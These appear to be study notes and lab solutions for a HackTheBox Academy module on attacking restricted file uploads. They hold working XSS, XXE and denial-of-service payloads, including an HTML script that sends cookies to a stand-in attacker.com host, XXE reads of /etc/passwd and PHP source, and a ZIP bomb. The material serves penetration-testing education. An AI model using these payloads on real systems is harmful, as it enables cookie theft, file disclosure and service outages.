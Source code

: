 # Limited File Uploads

> **🛡️ Secure Forms:** Attacking "secure" upload forms with XSS, XXE, and DoS when arbitrary uploads fail

## Overview

So far, we have been mainly dealing with filter bypasses to obtain arbitrary file uploads through a vulnerable web application. While file upload forms with weak filters can be exploited to upload arbitrary files, some upload forms have **secure filters** that may not be exploitable with the techniques we discussed.

However, even if we are dealing with a **limited** (i.e., non-arbitrary) file upload form, which only allows us to upload specific file types, we may still be able to perform some attacks on the web application.

Certain file types, like **SVG**, **HTML**, **XML**, and even some **image** and **document** files, may allow us to introduce new vulnerabilities to the web application by uploading malicious versions of these files.

---

## Cross-Site Scripting (XSS) Attacks

### HTML File XSS

**Attack Vector:** Upload malicious HTML files containing JavaScript

**Malicious HTML Example:**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Malicious HTML</title>
</head>
<body>
    <h1>Legitimate Content</h1>
    <script>
        alert('XSS Triggered from: ' + window.origin);
        fetch('http://attacker.com/steal?cookies=' + document.cookie);
    </script>
</body>
</html>
```

### Image Metadata XSS

**Using exiftool to inject XSS:**
```bash
# Inject XSS payload into Comment field
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg

# Verify payload injection
exiftool HTB.jpg
# Output: Comment: "><img src=1 onerror=alert(window.origin)>
```

### SVG XSS Attacks

**Basic SVG XSS Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

---

## XML External Entity (XXE) Attacks

### SVG XXE for System File Reading

**Reading /etc/passwd:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

### PHP Source Code Disclosure

**Reading PHP source with base64 encoding:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

**Decoding base64 output:**
```bash
# Once you get base64 output from XXE, decode it:
echo "PD9waHAKZWNobyAiSGVsbG8gV29ybGQhIjsKPz4=" | base64 -d
# Output: <?php echo "Hello World!"; ?>
```

---

## Denial of Service (DoS) Attacks

### Decompression Bomb (ZIP)

**Creating a ZIP bomb:**
```bash
# Create a large file filled with zeros
dd if=/dev/zero bs=1M count=1024 of=large_file.txt

# Compress it multiple times
zip bomb1.zip large_file.txt
zip bomb2.zip bomb1.zip  
zip bomb3.zip bomb2.zip
zip final_bomb.zip bomb3.zip

# Result: Small ZIP file that expands to gigabytes
```

### Pixel Flood Attack

**Manual hex editing:**
```bash
# Use hexedit to modify JPG dimensions
hexedit normal.jpg

# Look for FF C0 marker
# Modify bytes at positions:
# Height: Set to FF FF (65535 pixels)
# Width: Set to FF FF (65535 pixels)
```

---

## HTB Academy Lab Solutions

### Lab 1: XXE File Disclosure Attack

**Challenge:** Read `/flag.txt` using XXE through secure upload form

**Step 1: Create SVG with XXE payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="40">&xxe;</text>
</svg>
```

**Step 2: Upload SVG file**
- Save payload as `xxe.svg`
- Upload through the secure form (should accept SVG files)
- Navigate to uploaded file location

**Step 3: View SVG content**
- Access the uploaded SVG file in browser
- Check page source if content is not visible
- Flag should be displayed in SVG text content

**Expected Flag:** `HTB{...}`

### Lab 2: Source Code Disclosure

**Challenge:** Read `upload.php` source code to identify uploads directory

**Step 1: Create PHP source disclosure SVG**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="40">&xxe;</text>
</svg>
```

**Step 2: Upload and access SVG**
- Upload the SVG file
- View the uploaded file
- Copy the base64 encoded content

**Step 3: Decode PHP source**
```bash
# Decode base64 content
echo "base64_content_here" | base64 -d > upload.php

# Look for upload directory in source
grep -i "upload" upload.php
grep -i "dir" upload.php
grep -i "path" upload.php
```

**Expected Answer:** The exact directory name as found in source code

This comprehensive guide demonstrates that even "secure" upload forms can be vulnerable to sophisticated attacks through legitimate file types.

